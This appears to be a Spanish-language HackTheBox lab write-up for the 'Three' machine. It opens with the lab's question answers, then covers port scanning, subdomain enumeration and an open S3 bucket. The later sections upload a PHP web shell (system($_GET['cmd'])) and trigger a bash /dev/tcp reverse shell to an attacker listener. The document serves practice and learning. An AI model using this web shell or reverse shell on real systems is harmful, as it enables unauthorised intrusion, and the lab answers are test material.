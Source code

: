 1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el dominio de la dirección de correo electrónico facilitada en la sección «Contacto» del sitio web?
	thetoppers.htb

3)En ausencia de un servidor DNS, ¿qué archivo de Linux podemos utilizar para resolver nombres de host en direcciones IP con el fin de poder acceder a los sitios web que apuntan a esos nombres de host?
	/etc/hosts

4)¿Qué subdominio se descubre durante la enumeración posterior?
	s3.thetoppers.htb
	[[aws]]
	
5)¿Qué servicio se ejecuta en el subdominio descubierto?
	amazon s3

6)¿Qué utilidad de línea de comandos puede utilizarse para interactuar con el servicio que se ejecuta en el subdominio descubierto?
	awscli
	Pero el comando para usar en consola es aws

7)¿Qué comando se utiliza para configurar la instalación de la CLI de AWS?
	aws configure

8)¿Cuál es el comando utilizado por la utilidad anterior para listar todos los buckets de S3?
	aws s3 ls
	
9)¿Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?
	php

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.227.248
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.227.248 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.227.248 -oN target
```

![[Three1.png]]

![[Three2.png]]

Sabemos que es una maquina linux por el ttl cercano a 64, y que el puerto 22 esta abierto con un servicio ssh y el 80 con un apache

------
# [[Whatweb-wappalyzer]]
![[Three3.png]]
El script de nmap no conectaba y el whatweb nos da el mail con dominio thetoppers.htb que lo vamos a agregar a etc/hosts para probar

------

# Agregar dominio a /etc/hosts

```
10.129.227.248 thetoppers.htb
```

![[Three4.png]]

--------

# Enumeracion de subdominios con [[Gobuster]]
Tuvimos que usar el gobuster, por que en el ffuf no salia nada y al ver el writeup, vemos que con gobuster si encontraba el subdominio, pero como sale con codigo de estado 404, no nos aparece en ffuf

```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

![[Three5.png]]
Como resultado tenemos s3.thetoppers.htb

-----
# Agregar dominio a /etc/hosts

```
10.129.182.45 s3.thetoppers.htb
```

![[Three6.png]]

Ahora entramos a la pagina `http://s3.thetoppers.htb/` y ya nos va a cargar
![[Three13.png]]

-------
# Intrusion a la maquina con [[aws]]

Vamos a acceder a los contenedores de amazon s3, y ver sus contenidos para enumerar un poco, podemos ver que estos son los archivos de la pagina principal, asi que vamos a cargar posteriormente un archivo que nos permita ejecutar comandos

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls --no-sign-request
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --no-sign-request
```

![[Three7.png]]
Con el primer comando al ver que nos responde thetoppers.htb sabemos que esta hosteando la pagina victima, asi que vamos a intentar cargar y/o modificar archivos
Con el segundo comando visualizamos el contenido del directorio



Vamos a descargar el archivo index para ver si nos da alguna pista:
```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb/index.php --no-sign-request
```

![[Three10.png]]
El contenido del archivo index no nos dio ningun dato util
#### Cargamos el archivo [[archivo php inyección comandos]]

Contenido del archivo exploit.php
```
<?php system($_GET["cmd"]); ?>
```

Ahora con este comando de [[aws]] vamos a cargar el archivo exploit.php
```
aws --endpoint-url=http://s3.thetoppers.htb s3 cp exploit.php s3://thetoppers.htb --no-sign-request
```

![[Three8.png]]

Desde la maquina victima, vamos a hacer una prueba para ver si funciona el archivo que cargamos

http://thetoppers.htb/exploit.php?cmd=id
![[Three9.png]]
Como podemos ver nos muestra nos responde, asi que el archivo cumple su funcion correctamente



-------
## Enviamos la [[Reverse shell]] mientras estamos en escucha con [[nc -nlvp 443]] en nuestra maquina

##### Desde la maquina victima:

```
http://thetoppers.htv/exploit.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'
```

![[Three11.png]]

##### Desde la maquina atacante:

```
nc -nlvp 443
```
![[Three12.png]]
Una vez dentro de la maquina cateamos la flag

----------
# Creditos
Writeup oficial HackTheBox